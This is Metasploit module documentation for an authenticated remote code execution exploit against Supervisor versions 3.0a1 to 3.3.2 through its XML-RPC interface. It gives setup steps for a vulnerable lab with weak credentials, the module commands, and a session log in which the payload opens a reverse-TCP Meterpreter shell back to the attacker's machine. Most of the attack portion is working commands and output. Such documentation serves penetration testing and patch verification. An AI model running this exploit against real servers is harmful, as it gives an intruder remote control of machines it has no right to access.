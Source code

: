 ## Vulnerable Application

  This module exploits an authenticated RCE vulnerability in Supervisor versions 3.0a1 to 3.3.2
  
  This has been tested with versions 3.2.0 and 3.3.2

### Creating A Testing Environment

  At the time of writing, version 3.2.0-2ubuntu0.1 is available in the Ubuntu repositories.

  1. ```sudo apt-get install supervisor```
  2. Enable Web interface/XML-RPC server in Supervisor config in `/etc/supervisor/supervisord.conf`

    ```
    [inet_http_server]         ; inet (TCP) server disabled by default
    port=:9001        ; ip_address:port specifier, *:port for all iface
    username=user              ; default is no username (open server)
    password=123               ; default is no password (open server)
    ```

  3. Restart the service: `sudo service supervisor restart`

## Verification Steps

  1. ```use exploit/linux/http/supervisor_xmlrpc_exec```
  2. ```set lhost [IP]```
  3. ```set rhost [IP]```
  4. ```set httpusername user```
  5. ```set httppassword 123```
  6. ```exploit```
  7. A meterpreter session should have been opened successfully

## Options

### HttpUsername

  Username for HTTP basic auth which is set in the conf file(optional)

### HttpPassword

  Password for HTTP basic auth which is set in the conf file(optional)

### TARGETURI

  The path to the XML-RPC endpoint

## Scenarios

### Supervisor 3.2.0 on Xubuntu 16.04

```
msf > use exploit/linux/http/supervisor_xmlrpc_exec 
msf exploit(supervisor_xmlrpc_exec) > set httpusername user
httpusername => user
msf exploit(supervisor_xmlrpc_exec) > set httppassword 123
httppassword => 123
msf exploit(supervisor_xmlrpc_exec) > set lhost 192.168.0.2
lhost => 192.168.0.2
msf exploit(supervisor_xmlrpc_exec) > set rhost 192.168.0.19
rhost => 192.168.0.19
msf exploit(supervisor_xmlrpc_exec) > check 

[*] Extracting version from web interface..
[*] Using basic auth (user:123)
[+] Vulnerable version found: 3.2.0
[*] 192.168.0.19:9001 The target appears to be vulnerable.
msf exploit(supervisor_xmlrpc_exec) > exploit 

[*] Started reverse TCP handler on 192.168.0.2:4444 
[*] Sending XML-RPC payload via POST to 192.168.0.19:9001/RPC2
[*] Using basic auth (user:123)
[*] Sending stage (2878872 bytes) to 192.168.0.19
[*] Command Stager progress - 100.00% done (782/782 bytes)
[+] Request timeout, usually indicates success. Passing to handler..
[*] Meterpreter session 1 opened (192.168.0.2:4444 -> 192.168.0.19:36186) at 2017-08-30 01:24:45 +0100

meterpreter > 
```
